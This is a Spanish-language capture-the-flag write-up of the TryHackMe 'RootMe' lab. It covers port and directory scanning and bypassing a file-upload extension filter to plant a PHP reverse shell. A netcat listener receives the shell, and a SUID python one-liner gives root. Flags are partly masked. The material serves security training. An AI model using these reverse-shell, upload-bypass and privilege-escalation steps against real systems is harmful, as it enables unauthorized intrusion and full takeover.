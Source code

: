 ```yaml
---
layout: single
title:  "RootMe CTF [ES] - TryHackMe"
date:   2021-04-02 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


En esta ocasión estaré resolviendo el lab [RootMe](https://www.tryhackme.com/room/rrootme) de la plataforma **TryHackMe**. Esta máquina es bastante sencilla como se verá a continuación.

## Lab info

![Lab Info](/images/THM/RootMe/00-lab-info.png "Machine Info"){: .align-center}


## Task 1 - Deploy the machine

Desplegar la máquina, no requiere respuesta.

## Task 2 - Reconnaissance

1 - Scan the machine, how many ports are open?
``` 
2
```
Según el escáner realizado con **nmap**, podemos ver que existen 2 puertos abiertos. Se han utilizado los siguientes comandos:

* ```nmap -p- -sS --min-rate 4000 -n -v 10.10.253.211 -oG allPorts.gnmap```
* ```nmap -sC -sV -p22,80 10.10.253.211 -oN ports.nmap```


```go
Nmap scan report for 10.10.253.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - What version of Apache is running?
```
2.4.29
```
Esta información se puede visualizar desde el escaner nmap o realizando ```whatweb http://10.10.253.211```
```bash
http://10.10.253.211 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.253.211], Script, Title[HackIT - Home]
```
Desde el navegador se visualiza la siguiente home page:

![Lab Info](/images/THM/RootMe/05-web-page.png){: .align-center}

3 - What service is running on port 22?
```
SSH
```

4 - Find directories on the web server using the GoBuster tool.
```
No requiere respuesta
```
5 - What is the hidden directory?

```
/panel/
```

Gobuster scan: 

* ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.253.211/ -t 300 --no-error```

```go
===============================================================
2021/04/02 19:02:50 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.253.211/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.253.211/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.253.211/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.253.211/panel/]
```

## Task 3 - Getting a shell

Para esta tarea la plataforma solicita obtener una shell en base a lo que se ha descubierto anteriormente. Para ello revisamos la ruta ```http://10.10.253.211/panel/``` en donde se visualiza un panel para subir archivos:

![Panel](/images/THM/RootMe/10-web-upload-page.png){: .align-center}

Esto nos hace pensar que es posible subir un archivo que nos entable una reverse shell. Para que funcione, debemos saber que lenguaje de programación interpretará la página. Revisando en Wappalyzer vemos que la web está construida en ```php```

![PHP](/images/THM/RootMe/15-web-upload-language.png){: .align-center}

Sabiendo esto, yo recomiendo utilizar el recurso de [Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) para la reverse shell con PHP.

Descargamos el archivo y lo editamos para asegurarnos de definir nuestra IP y Puerto en el que queremos recibir la shell.

![RSHELL](/images/THM/RootMe/20-reverse-shell-php.png){: .align-center}

Probamos a subir el archivo y nos encontramos con el siguiente mensaje:

![Web Error](/images/THM/RootMe/26-web-error.png){: .align-center}

Lo que nos da a entender que la extensión del archivo no es válida.

Para lidiar con esto lo que se puede hacer es crear múltiples archivos con distinta extensión y probar uno a uno o bien realizar esta comprobación con **BurpSuite** lo cual resulta más cómodo. Recordar que existe un [room](https://www.tryhackme.com/room/rpburpsuite) en la plataforma de TryHackMe donde se puede aprender a utilizar BurpSuite desde cero.

Dicho lo anterior, lo que se debe hacer es interceptar la subida del archivo y analizar la respuesta del lado del servidor hasta que nos dé una respuesta satisfactoria.

Se intercepta la petición realizada por el navegador y posteriormente se envía al repeater. En la izquierda tenemos la petición realizada con un archivo con extensión ```.php``` y en la derecha se visualiza la respuesta indicando que la extensión no es válida.

![Burp Error](/images/THM/RootMe/30-burp-error.png){: .align-center}

Cambiamos la extensión y vemos que la respuesta ahora es satisfactoria. Esta respuesta se obtiene con las extensiones ```.php2``` ```.php3``` ```.php4``` ```.php5```.

![Burp Ok](/images/THM/RootMe/35-burp-ok.png){: .align-center}

En mi caso subiré el archivo como rshell.php5

![Web Ok](/images/THM/RootMe/41-web-ok.png){: .align-center}

Como se aprecia en la imagen, se obtiene una respuesta exitosa y en el texto señalado se obtiene la ruta del archivo que fue subido. En mi caso la ruta es: ```http://10.10.253.211/uploads/rshell.php5```

Ahora con netcat abrimos el canal para la escucha tráfico en el puerto 443 que definimos anteriormente.

```go
nc -nlvp 443
listening on [any] 443 ...
```

Y ejecutamos el archivo en el navegador para obtener una shell con el usuario www-data.

```go
nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.253.211] 35932
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:23:22 up  3:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
la flag de este usuario se encuentra en ```/var/www/user.txt```.

```bash
THM{y0u_**********}
```

## Task 4 - Privilege escalation

Para la fase de escalada de privilegios lo primero sería hacer una búsqueda de archivos con permiso SUID habilitado.

```bash
$ find \-perm -4000 2>/dev/null | grep -v "snap"
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./bin/mount
./bin/su
./bin/fusermount
./bin/ping
./bin/umount
```

En base a lo obtenido y haciendo uso de la web [GTFObins](https://gtfobins.github.io/) podemos identificar que se puede explotar python para obtener una shell con privilegios elevados. En la sección de SUID nos indican como realizarlo.

![Web Ok](/images/THM/RootMe/45-gtfobins.png){: .align-center}


```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Por último se realiza una lectura de la flag ubicada en /root/root.txt

```bash
THM{pr1v1l**********}
```
Eso concluye la última pregunta de este lab.